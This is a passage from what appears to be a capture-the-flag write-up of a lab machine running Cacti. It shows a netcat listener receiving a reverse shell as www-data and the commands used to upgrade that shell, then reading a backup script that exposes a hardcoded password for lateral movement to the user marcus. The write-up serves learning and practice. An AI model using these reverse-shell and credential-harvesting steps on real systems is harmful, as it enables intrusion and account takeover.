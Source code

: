 ```js
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.136.121.
Ncat: Connection from 10.129.136.121:59222.
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@monitors:/usr/share/cacti/cacti$ export TERM=xterm
export TERM=xterm
www-data@monitors:/usr/share/cacti/cacti$ ^Z
[1]+  Stopped                 nc -lnvp 7575
$ stty raw -echo;fg
nc -lnvp 7575

www-data@monitors:/usr/share/cacti/cacti$ stty rows 55 cols 236
```

## www-data => marcus

On the machine there is a custom service defined in `/etc/systemd/system/cacti-backup.service`, which reveals a script in the home directory of marcus.

```js
www-data@monitors:/$ cat /etc/systemd/system/cacti-backup.service
[Unit]
Description=Cacti Backup Service
After=network.target

[Service]
Type=oneshot
User=www-data
ExecStart=/home/marcus/.backup/backup.sh

[Install]
WantedBy=multi-user.target
www-data@monitors:/$
```

Taking a look at the script we find a config password `VerticalEdge2020`.

```js
www-data@monitors:/$ cat /home/marcus/.backup/backup.sh
#!/bin/bash

backup_name="cacti_backup"
config_pass="VerticalEdge2020"

zip /tmp/${backup_name}.zip /usr/share/cacti/cacti/*
sshpass -p "${config_pass}" scp /tmp/${backup_name} 192.168.1.14:/opt/backup_collection/${backup_name}.zip
rm /tmp/${backup_name}.zip
www-data@monitors:/$
```
